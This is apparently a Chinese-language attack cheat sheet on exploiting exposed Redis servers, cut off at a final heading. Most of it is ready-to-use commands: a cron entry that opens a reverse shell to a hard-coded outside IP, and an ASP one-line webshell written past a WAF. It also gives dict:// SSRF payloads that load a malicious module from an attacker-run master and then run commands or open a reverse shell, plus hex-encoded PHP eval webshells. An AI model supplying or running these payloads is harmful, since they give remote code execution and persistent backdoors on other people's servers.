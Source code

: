 因为默认redis写文件后是644的权限，但ubuntu要求执行定时任务文件/var/spool/cron/crontabs/<username>权限必须是600也就是-rw-------才会执行，否则会报错(root) INSECURE MODE (mode 0600 expected)，而Centos的定时任务文件/var/spool/cron/<username>权限644也能执行

因为redis保存RDB会存在乱码，在Ubuntu上会报错，而在Centos上不会报错

由于系统的不同，crontrab定时文件位置也会不同
Centos的定时任务文件在/var/spool/cron/<username>
Ubuntu定时任务文件在/var/spool/cron/crontabs/<username>
Centos和Ubuntu均存在的（需要root权限）/etc/crontab PS：高版本的redis默认启动是redis权限，故写这个文件是行不通的

构造redis的命令如下：
```
flushall
set 1 '\n\n*/1 * * * * bash -i >& /dev/tcp/124.221.206.154/2333 0>&1\n\n'
config set dir /var/spool/cron/
config set dbfilename root
save
```

### 排错
发现写入不了，随后设置了读写权限 ：
`config set slave-read-only on`
### 绕waf
发现是 404，写 asp 是 500，应该是什么规则拦截了。
随后 bypass 测试，只能上传 asp，而且还可以通过这样绕过：（单引号中间要带空格）
`set x '    <%execute(request("x"))%>    '`
## ssrf
### dict
dict只能执行一条命令dict://0.0.0.0:6379/auth pass，所以无法用来攻击需要认证的redis
+ rce
```
 1.连接远程主服务器
 url=dict://127.0.0.1:6379/slaveof:82.157.178.58:8443
2.设置保存文件名
 url=dict://127.0.0.1:6379/config:set:dbfilename:exp.so
3.载入 exp.so
 url=dict://127.0.0.1:6379/MODULE:LOAD:./exp.so
4.断开主从
 url=dict://127.0.0.1:6379/SLAVEOF:NO:ONE
5.恢复原始文件名
 url=dict://127.0.0.1:6379/config:set:dbfilename:dump.rdb
6.执行命令
 url=dict://127.0.0.1:6379/system.exec:id
 带参数的命令:system.exec:mkdir<>111
7.反弹 shell
url=dict://127.0.0.1:6379/system.rev:x.x.x.x:8887
```
+ 认证
```
url=dict://127.0.0.1:6379/auth:password
```
+ 写文件
```
url=dict://192.168.124.153:6380/config:set:dir:/var/www/html
url=dict://192.168.124.153:6380/config:set:dbfilename:webshell.php
//如果存在payload被转义或有过滤情况，可利用16进制，写入webshell
//phpinfo
url=dict://192.168.124.153:6380/set:webshell:"\x3c\x3f\x70\x68\x70\x20\x70\x68\x70\x69\x6e\x66\x6f\x28\x29\x3b\x20\x3f\x3e"
//一句话
url=dict://192.168.124.153:6380/set:webshell:"\x3c\x3f\x70\x68\x70\x20\x65\x76\x61\x6c\x28\x24\x5f\x50\x4f\x53\x54\x5b\x27\x63\x6d\x64\x27\x5d\x29\x3b\x20\x3f\x3e"
```
+ 计划任务反弹shell